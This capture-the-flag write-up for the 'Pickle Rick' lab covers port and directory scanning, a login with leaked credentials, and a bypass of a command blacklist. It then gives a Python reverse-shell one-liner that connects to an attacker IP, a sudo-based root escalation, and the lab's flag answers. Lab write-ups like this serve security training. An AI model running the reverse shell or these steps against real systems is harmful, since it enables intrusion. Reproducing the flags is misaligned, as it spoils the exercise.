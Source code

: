 # Pickle Rick



## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open 10.10.55.99 -oN port_scan.txt          

Nmap scan report for 10.10.55.99
Host is up (0.035s latency).
Not shown: 65524 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

First and foremost, intercept the web requests with Burp Suite to analyze if there is anything unusual.

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

We can see a comment with a user.

```
Username: R1ckRul3s
```



### Dir/File Enum

Check if there is some juicy file using gobuster tool.

{% code title="Directories" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/assets               (Status: 301) [Size: 311] [--> http://10.10.55.99/assets/]
```
{% endcode %}

{% code title="Files" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-files.txt -b 403,404

/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]

```
{% endcode %}

We have discovered the robots.txt that contain this string:

```
Wubbalubbadubdub
```

And a `login.php` page.

Try to login with user and possible password in robots.txt found.

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

We are in!



## Initial Access

Now, we have a Command Panel that allow us to execute some command to Web Server machine.

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

`ls` command works but when we will trying to print a file with `cat` command the portal gives me a error contains "Command disable".

This error suggests us that there is a Black List of commands. We have to search an alternative to print a file, the command `less` can help us.

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

This command bypasses the Black List to read a file.

{% code title="flag1" %}
```
mr. meeseek hair
```
{% endcode %}



### Spawn Rev Shell

Making this request we can obtain a reverse shell

{% code title="Payload" overflow="wrap" %}
```python
export RHOST="10.23.52.142";export RPORT=9009;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>



We can found a second flag in the rick's home directory

```bash
cd /home/rick
cat 'second ingredients'

1 jerry tear
```



## Privilege Escalation

Run `linpeass.sh` to find misconfiguration.

```bash
sudo -l

User www-data may run the following commands on ip-10-10-255-84:
    (ALL) NOPASSWD: ALL
```

With this rights we can access as root in easy way

```bash
sudo su
```

And print the last flag

```bash
cat /root/3rd.txt

3rd ingredients: fleeb juice
```



